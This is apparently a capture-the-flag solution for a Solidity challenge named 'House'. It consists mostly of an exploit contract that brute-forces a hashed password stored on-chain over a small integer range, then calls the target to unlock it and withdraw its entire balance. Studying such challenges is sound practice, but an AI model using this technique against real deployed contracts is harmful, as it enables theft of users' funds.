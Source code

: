 # House

## Solution

To validate this challenge, we need to read the variable containing the amount of ethers to send and read the variable containing the encrypted password.
Afterwards, it's necessary to find the good password by making a brute force in order to find the equivalent password to the encrypted one.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/hardChalls/House.sol";

contract AttackHouse {
    House originalContract;
    bytes32 password = 0x53d560affeeaf017bf120737c84cae3735e76d2108ce3cb65997cec3eddd36ce;

    constructor(address payable _originalContract) public {
        originalContract = House(_originalContract);
    }

    function findPassword() private view returns (uint) {
        for (uint i = 8500; i < 9000; i++) {
            if (password == keccak256(abi.encodePacked(i)))
                return i;
        }
        revert("Not found");
    }

    function exploit() public payable {
        require (msg.value == 1 ether);
        address(originalContract).call.value(1 ether)(abi.encodeWithSignature("openTheHouse(uint256)", findPassword()));
        address(originalContract).call(abi.encodeWithSignature("youCanWithdrawAllTheBalance(address payable)", payable(address(this))));
    }

}
```